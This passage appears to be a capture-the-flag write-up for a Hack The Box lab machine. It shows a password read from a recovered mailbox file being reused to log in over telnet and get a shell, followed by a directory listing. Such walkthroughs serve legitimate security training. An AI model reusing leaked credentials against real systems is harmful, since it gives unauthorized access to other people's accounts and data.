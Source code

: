`Access Control.mbox`
```
Hi there,
  The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```
We got a username and password.


## Getting a Shell:

We know the `telnet`service is open. And we have a login on it.
```
root@w0lf:~/CTF/HTB/Boxes/Access# telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security

08/23/2018  11:52 PM    <DIR>          .
08/23/2018  11:52 PM    <DIR>          ..
08/24/2018  08:37 PM    <DIR>          .yawcam
08/21/2018  11:35 PM    <DIR>          Contacts
08/28/2018  07:51 AM    <DIR>          Desktop
08/21/2018  11:35 PM    <DIR>          Documents
08/21/2018  11:35 PM    <DIR>          Downloads
08/21/2018  11:35 PM    <DIR>          Favorites
08/21/2018  11:35 PM    <DIR>          Links
08/21/2018  11:35 PM    <DIR>          Music
08/21/2018  11:35 PM    <DIR>          Pictures
08/21/2018  11:35 PM    <DIR>          Saved Games
08/21/2018  11:35 PM    <DIR>          Searches
08/24/2018  08:39 PM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)  16,773,005,312 bytes free

C:\Users\security>

```
